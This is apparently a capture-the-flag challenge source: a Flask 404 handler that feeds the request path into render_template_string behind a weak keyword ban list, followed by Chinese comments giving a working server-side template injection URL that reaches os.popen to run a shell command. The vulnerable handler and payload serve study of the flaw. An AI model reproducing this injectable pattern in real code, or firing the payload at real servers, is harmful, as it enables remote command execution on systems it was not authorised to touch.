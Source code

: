 ```
import urllib.parse
from flask import Flask, request, render_template_string

app = Flask(__name__, static_url_path='')

@app.errorhandler(404)
def page_not_found(e):
    print("url: {}".format(request.path))
    path = urllib.parse.unquote(request.path)
    print(path)
    bans = ["\"", "'", "[", "]", "|", "import",
            "os", "+", "-", "*", "\\", "%", "=", "flag"]
    for i in bans:
        if i in path:
            print("{} in {}".format(i, path))
            return "Hacker！！"
    print(path)
    page = ''' 
    <!doctype html>
<html lang="en">
<head>
    <meta charset="utf-8">
    <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <title>404 | Page not found!</title>
</head>
<body>
    <p class="error-advise">The PATH (%s) could not be found.</p>
</body>

</html>
    ''' % path
    print(page)
    return render_template_string(page), 404 

if __name__ == '__main__':
    app.run(host = '0.0.0.0', port=10008)
```
# 访问如下网址即可实现SSTI
# http://xxx:10008/{{url_for.__globals__.__getitem__(request.args.a).popen(request.args.b).read()}}?a=os&b=pwd
# os.popen("pwd").read() 是一种执行命令的方法
# render_template_string方法会执行string中的命令，进而实现SSTI(服务端模板注入攻击)